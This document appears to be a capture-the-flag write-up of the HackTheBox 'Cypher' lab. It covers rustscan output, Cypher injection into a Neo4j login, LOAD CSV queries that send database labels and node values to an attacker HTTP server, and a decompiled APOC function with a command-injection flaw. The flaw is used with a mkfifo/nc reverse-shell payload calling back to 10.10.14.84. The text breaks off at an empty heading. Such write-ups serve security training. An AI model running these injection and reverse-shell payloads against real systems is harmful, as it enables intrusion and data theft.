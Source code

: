 -------------

### CTF: HACKTHEBOX
### LAB-: CYPHER

-------------

![image](https://github.com/user-attachments/assets/98f18401-bf3e-4d72-af9a-48ef1777eaa8)

-------------

- Rustscan's output-:

```bash
❯ rustscan -a cypher.htb -- -Pn -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/sensei/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.57:22
Open 10.10.11.57:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-27 08:43 WAT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:43
Completed NSE at 08:43, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:43
Completed NSE at 08:43, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 08:43
Completed NSE at 08:43, 0.00s elapsed
Initiating Connect Scan at 08:43
Scanning cypher.htb (10.10.11.57) [2 ports]
Discovered open port 22/tcp on 10.10.11.57
Discovered open port 80/tcp on 10.10.11.57
Completed Connect Scan at 08:43, 0.20s elapsed (2 total ports)
Initiating Service scan at 08:44
Scanning 2 services on cypher.htb (10.10.11.57)
Completed Service scan at 08:44, 14.69s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.57.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:44
Completed NSE at 08:44, 7.12s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:44
Completed NSE at 08:44, 1.07s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 08:44
Completed NSE at 08:44, 0.00s elapsed
Nmap scan report for cypher.htb (10.10.11.57)
Host is up, received user-set (0.20s latency).
Scanned at 2025-03-27 08:43:58 WAT for 25s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMurODrr5ER4wj9mB2tWhXcLIcrm4Bo1lIEufLYIEBVY4h4ZROFj2+WFnXlGNqLG6ZB+DWQHRgG/6wg71wcElxA=
|   256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqadcsjXAxI3uSmNBA8HUMR3L4lTaePj3o6vhgPuPTi
80/tcp open  http    syn-ack nginx 1.24.0 (Ubuntu)
|_http-title: GRAPH ASM
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Ffuf's output

![image](https://github.com/user-attachments/assets/ceee1d75-8398-4293-b3e3-925b6e6cdc41)

- I discovered this jar in which will later be explained.It is crucial in another stage.

![image](https://github.com/user-attachments/assets/87250fcc-9f25-45fe-84bd-e3e5deb27aff)

- I tested the login page with single quote and got this giant blob of error.

![image](https://github.com/user-attachments/assets/d0fb74a9-3e97-4bc1-8447-46e2a3fadc6d)

- Lets look at it closer with curl because notification box disappears after some seconds.

![image](https://github.com/user-attachments/assets/bb3610b1-c224-4c9b-9544-c050803b49ba)

- I discovered it is a neo4j database which is a graph type of  database.A graph database is defined as a specialized, single-purpose platform for creating and manipulating graphs. Graphs contain nodes, edges, and properties, all of which are used to represent and store data in a way that relational databases are not equipped to do as explained [here](https://www.oracle.com/ng/autonomous-database/what-is-graph-database/).I got an interesting [article](https://hackmd.io/@Chivato/rkAN7Q9NY#Fun-with-Cypher-Injections) to exploit it.The vulnerability is termed `cypher injection`.

---------------------

### Data exfiltration from neo4j db with SSRF [Rabbit hole]

----------------------

- A key method to exfiltrate nodes im a neo4j db is `SSRF`.Before exploiting and reading data, we have to read the nodes and this achieved through the `CALL data.labels()` function.First of all,set a python `http.server`,Query-:

```query
' OR 1=1 WITH 1337 AS x CALL db.labels() YIELD label AS d LOAD CSV FROM 'http://[http server]/[point to an actual file]?help='+d AS y RETURN y//
```
- Result-:

![image](https://github.com/user-attachments/assets/ccc8a69c-14f6-4d86-88d2-7df6555bed74)

- Read nodes with -:
```query 
1' OR 1=1 WITH 1 as a MATCH (f:<node>) UNWIND keys(f) as p LOAD CSV FROM 'http://<server>/<point to a real file>?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

- Result for node `USER`,`SHA1`-:

![image](https://github.com/user-attachments/assets/1be00b57-3d91-43b0-aeaf-c609d019ce64)

- Rabbit hole concluded
- Cypher allows installation of custom functions and the jar file provided by the challenge creators is a custom function tagged as APOC [here](https://www.varonis.com/blog/neo4jection-secrets-data-and-cloud-exploits).I decompiled the jar file  with a site and this is the output.

```java
package com.cypher.neo4j.apoc;

import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.util.Arrays;
import java.util.concurrent.TimeUnit;
import java.util.stream.Stream;
import org.neo4j.procedure.Description;
import org.neo4j.procedure.Mode;
import org.neo4j.procedure.Name;
import org.neo4j.procedure.Procedure;

public class CustomFunctions {
   @Procedure(
      name = "custom.getUrlStatusCode",
      mode = Mode.READ
   )
   @Description("Returns the HTTP status code for the given URL as a string")
   public Stream<CustomFunctions.StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
      if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {
         url = "https://" + url;
      }

      String[] command = new String[]{"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
      System.out.println("Command: " + Arrays.toString(command));
      Process process = Runtime.getRuntime().exec(command);
      BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
      BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
      StringBuilder errorOutput = new StringBuilder();

      String line;
      while((line = errorReader.readLine()) != null) {
         errorOutput.append(line).append("\n");
      }

      String statusCode = inputReader.readLine();
      System.out.println("Status code: " + statusCode);
      boolean exited = process.waitFor(10L, TimeUnit.SECONDS);
      if (!exited) {
         process.destroyForcibly();
         statusCode = "0";
         System.err.println("Process timed out after 10 seconds");
      } else {
         int exitCode = process.exitValue();
         if (exitCode != 0) {
            statusCode = "0";
            System.err.println("Process exited with code " + exitCode);
         }
      }

      if (errorOutput.length() > 0) {
         System.err.println("Error output:\n" + errorOutput.toString());
      }

      return Stream.of(new CustomFunctions.StringOutput(statusCode));
   }

   public static class StringOutput {
      public String statusCode;

      public StringOutput(String statusCode) {
         this.statusCode = statusCode;
      }
   }
}
```

- The snippet below is vulnerable to command injection because the url argument used by the custom function `custom.getUrlStatusCode` is passed to a shell statement.We can end the statement with `;` and trigger our arbitrary statement.The statement is a curl statement being executed by the `sh` binary.

```java
 String[] command = new String[]{"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
      System.out.println("Command: " + Arrays.toString(command));
      Process process = Runtime.getRuntime().exec(command);
      BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
      BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
      StringBuilder errorOutput = new StringBuilder();

      String line;
```

- POC to pop a rev shell-:

```neo4j
1' OR 1=1 WITH 1337 AS x CALL custom.getUrlStatusCode('http://10.10.14.84:8002/zz?id=`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.84 8001 >/tmp/f`') YIELD statusCode LOAD CSV FROM 'http://10.10.14.84:8002/zz?statuscode='+statusCode AS y RETURN y//
```

![image](https://github.com/user-attachments/assets/2e51741c-e513-43cb-9be9-e38d25b9b6fa)

![image](https://github.com/user-attachments/assets/8c81c787-16db-4a85-b982-59dd93e208b5)

- I ran linpeas.sh and discovered this password which works fors for user `graphasm`.

![image](https://github.com/user-attachments/assets/004270a0-10a8-4c15-bb8d-b4a6bdfa5c88)

- User `graphasm`-:

![image](https://github.com/user-attachments/assets/f4c10ba2-47ec-4ccd-8210-a76b16922c10)

---------------

### Arbitrary Code Execution in  bbot

----------------




